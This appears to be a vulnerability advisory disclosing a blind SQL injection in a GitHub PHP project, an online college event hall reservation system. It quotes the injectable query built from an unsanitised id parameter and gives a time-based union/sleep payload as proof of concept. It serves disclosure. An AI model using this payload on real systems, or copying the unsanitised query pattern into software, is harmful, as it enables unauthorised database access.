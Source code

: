# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection on logincheck.php via home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /home.php
> /config/logincheck.php

## Code
#### home.php
```php
<?php include('config/logincheck.php');$id=$_GET['id'];?>
```
#### /config/logincheck.php
```php

    $id=$_GET['id'];
    $sql="SELECT * FROM tbl_user WHERE user_id='$id'";
    $res=mysqli_query($conn,$sql);
    if($res==True){
      while($row=mysqli_fetch_assoc($res)){
        $user_name=$row['user_name'];
        $user_dept=$row['user_dept'];
        $user_email=$row['user_email'];
        $user_password=$row['user_password'];
      }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id=NoChizPlz'+union+select+sleep(5),1,1,1,1+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/e12c9931-b67c-4d05-af2b-772363f82d1c)
